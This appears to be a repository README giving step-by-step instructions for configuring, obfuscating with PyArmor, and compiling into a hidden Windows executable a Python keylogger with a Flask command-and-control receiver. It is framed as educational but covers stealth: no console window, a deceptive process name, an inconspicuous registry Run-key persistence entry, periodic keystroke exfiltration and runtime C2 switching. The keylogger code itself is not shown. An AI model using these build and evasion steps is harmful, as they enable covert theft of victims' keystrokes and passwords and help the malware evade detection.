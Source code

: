 # keyloger
A keyloger to demonstrate a keyloging attack just for learning basis

This guide outlines the step-by-step process for manually configuring your educational keylogger (loger.py), compiling it into a Windows executable, and setting up the Flask server (simple_log_receiver.py) for log reception and dynamic C2 URL changes.
Crucial Ethical Reminder:
This documentation is provided purely for educational purposes to understand cybersecurity concepts. Never deploy or experiment with this code on any system you do not own or have explicit, documented permission to test on. Always use an isolated virtual machine environment.
1. Prerequisites & Setup
Before you begin, ensure you have the following installed on your Windows virtual machine and that your Python environment is set up.
Python 3.x: Installed and configured in your system's PATH.
Required Python Libraries:
pynput (for keylogging)
pyinstaller (for compiling Python to .exe)
pyarmor (for obfuscation)
requests (for HTTP communication in the keylogger)
Flask (for the log receiving server)
You can install these by opening a Command Prompt or PowerShell and running:pip install pynput pyinstaller pyarmor requests Flask


Your Source Files:
Save your keylogger's Python code as loger.py.
Save your Flask server's Python code as simple_log_receiver.py.
Place both files in a dedicated project directory (e.g., C:\KeyloggerProject\). For this guide, we'll assume C:\Users\harsh\Downloads\asdf as your working directory.
2. Manually Configure loger.py (Keylogger Source)
You need to edit loger.py directly to set its initial C2 server URL and the log exfiltration interval, as well as the persistence application name.
Open loger.py in a text editor (like Notepad++, VS Code, Sublime Text).
Locate and modify the following lines in the --- Configuration --- section:
C2_URL (Initial Server URL):
Change the value within the quotes to your Flask server's URL. For local testing, this will typically be http://localhost:8000/upload_logs.
C2_URL = "http://localhost:8000/upload_logs" # <-- CHANGE THIS


EXFILTRATION_INTERVAL_SECONDS (Log Sending Frequency):
Set this to your desired interval in seconds.
For every minute: 60
For every 5 minutes: 300
For every 10 minutes: 600
For every hour: 3600
For every day: 86400
EXFILTRATION_INTERVAL_SECONDS = 180 # Example: 3 minutes. <-- CHANGE THIS


PERSISTENCE_APP_NAME (Registry Entry Name):
This is the name that will appear in the Windows Registry's Run key to achieve persistence. Choose something inconspicuous.
PERSISTENCE_APP_NAME = "WindowsCoreService" # <-- You can change this name if desired


Save loger.py after making these changes.
3. Obfuscate with PyArmor
This step obfuscates your Python code to make reverse engineering more difficult.
Open Command Prompt or PowerShell.
Navigate to the Python Scripts Directory:
Many Python tools installed via pip (especially with Microsoft Store Python installations) place their executables in a Scripts subdirectory within your Python installation. For your setup, this is likely:
C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts
To ensure PyArmor is found, navigate to this directory in your terminal first:
cd C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts

(Replace C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts with the actual path to your Python's Scripts directory if it differs).
Run the PyArmor obfuscation command. This will create a temporary obfuscated version of your loger.py in a new subdirectory named pyarmor_obfuscated_source within your original project folder.
.\pyarmor gen C:\Users\harsh\Downloads\asdf\loger.py --output C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source


.\pyarmor gen: Executes the pyarmor tool from the current directory.
C:\Users\harsh\Downloads\asdf\loger.py: The full path to your original loger.py source file.
--output C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source: Specifies that the obfuscated output (including loger.py and its runtime files) should be placed in a directory named pyarmor_obfuscated_source within your original project folder.
After this command, you will find your obfuscated script at: C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source\loger.py.
4. Compile with PyInstaller
Now, you'll compile the obfuscated keylogger into a standalone executable (.exe).
In the same Command Prompt or PowerShell window (still in C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts).
Run the PyInstaller command. This will create your final executable in a new dist folder within your original project directory.
.\pyinstaller --onefile --noconsole --name 1xbet --hidden-import pynput.keyboard._win32 --hidden-import pynput.mouse._win32 --collect-all requests --collect-all platform --collect-all socket --collect-all uuid C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source\loger.py --distpath C:\Users\harsh\Downloads\asdf\dist


.\pyinstaller: Executes the pyinstaller tool from the current directory.
--onefile: Creates a single executable file.
--noconsole: Prevents a console window from appearing when the .exe is run (for stealth).
--name 1xbet: Sets the name of your final executable to 1xbet.exe. You can change 1xbet to any desired process name (e.g., WinHost, TaskMgrService).
--hidden-import ... --collect-all ...: These flags ensure that PyInstaller correctly bundles all necessary modules and their dependencies, preventing ModuleNotFoundError errors at runtime.
C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source\loger.py: This is the crucial input path, pointing to the obfuscated version of your keylogger.
--distpath C:\Users\harsh\Downloads\asdf\dist: This explicit flag tells PyInstaller to place the final .exe in C:\Users\harsh\Downloads\asdf\dist, overriding its default behavior of creating dist in the current working directory (C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts).
After this command, your compiled executable will be located at: C:\Users\harsh\Downloads\asdf\dist\1xbet.exe (or whatever name you chose).
5. Run the Flask Log Receiver Server
This server will listen for incoming logs from your keylogger.
Open a NEW Command Prompt or PowerShell window.
Navigate to your project directory (e.g., cd C:\Users\harsh\Downloads\asdf).
Run the Flask server:
python simple_log_receiver.py

The server will start listening on http://0.0.0.0:8000 (which is accessible via http://localhost:8000 from your VM). Keep this window open.
6. Deploy and Test the Keylogger
Locate your compiled executable: Go to C:\Users\harsh\Downloads\asdf\dist\.
Run the executable: Double-click 1xbet.exe (or your chosen name). A console window should not appear.
Verify Process: Open Task Manager (Ctrl+Shift+Esc), go to the "Details" tab, and look for 1xbet.exe (or your chosen name) running in the background.
Type Keystrokes: Open Notepad, a web browser, or any application and type various characters, spaces, and use the Enter key.
Check Server Logs: Observe the Flask server's Command Prompt window. You should see logs appearing there after the EXFILTRATION_INTERVAL_SECONDS has passed.
Verify Persistence:
Restart your VM.
After logging in, check Task Manager again to confirm 1xbet.exe (or your chosen name) is automatically running.
You can also check the Registry Editor (regedit.exe) at HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run for an entry named WindowsCoreService (or your chosen PERSISTENCE_APP_NAME) pointing to the executable in %APPDATA%\SystemData_svc.
7. Dynamically Change C2 Server URL (During Runtime)
Your Flask server has an endpoint that allows you to instruct the keylogger to switch its C2 URL.
Ensure your Flask server is running (from Step 5).
Open a web browser in your VM.
Visit the /set_next_c2 endpoint with your desired new URL.
For example, to make the keylogger send logs to http://localhost:8000/new_log_path (you would need to create a new endpoint in your Flask app for new_log_path), you would type:
http://localhost:8000/set_next_c2?url=http://localhost:8000/new_log_path

Press Enter. You should see a confirmation message in the Flask server's terminal.
Observe Keylogger Behavior: The next time your keylogger sends logs (after the EXFILTRATION_INTERVAL_SECONDS passes), it will receive this new URL. Subsequent log uploads from that keylogger instance will then be directed to http://localhost:8000/new_log_path. You will see this reflected in the Flask server's output as logs arrive at the new endpoint.
By following these manual steps, you gain a deeper understanding of each stage involved in building and controlling such an educational keylogger. Remember to adhere to ethical guidelines and always operate within your controlled VM environment.
